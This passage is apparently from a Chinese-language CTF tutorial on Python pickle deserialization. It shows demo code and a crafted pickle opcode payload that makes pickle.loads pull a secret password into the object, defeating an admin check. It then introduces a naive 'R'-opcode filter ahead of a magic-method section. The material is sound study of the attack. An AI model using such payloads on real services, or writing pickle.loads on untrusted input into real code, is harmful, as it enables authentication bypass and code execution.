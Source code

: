 ```Python
#!/usr/bin/env python
# -*- coding: utf-8 -*-
# @Time    : 2023/10/17 20:35
# @Author  : wi1111
# @File    : pickle_demo.py
# @Software: PyCharm python3.9
import pickle
import pickletools

"""
import secret

class Target:
    def __init__(self):
        obj = pickle.loads(ser)  # 输入点
        if obj.pwd == secret.pwd:
            print("Hello, admin!")
"""

class secret:
    pwd = "???"

class Target:
    def __init__(self):
        self.pwd = secret.pwd

test = Target()

serialized = pickletools.optimize(pickle.dumps(test, protocol=0))
print(serialized)
pickletools.dis(serialized)

# 结果
# b'ccopy_reg\n_reconstructor\n(c__main__\nTarget\nc__builtin__\nobject\nNtR(dVpwd\nV???\nsb.'

# payload
# b'ccopy_reg\n_reconstructor\n(c__main__\nTarget\nc__builtin__\nobject\nNtR(dVpwd\ncsecret\npwd\nsb.'
```

#### 引入魔术方法

```python
class Target:
    def __init__(self):
        ser = ""  # 输入点
        if "R" in ser:
            print("Hack! <=@_@")
        else:
            obj = pickle.loads(ser)
```
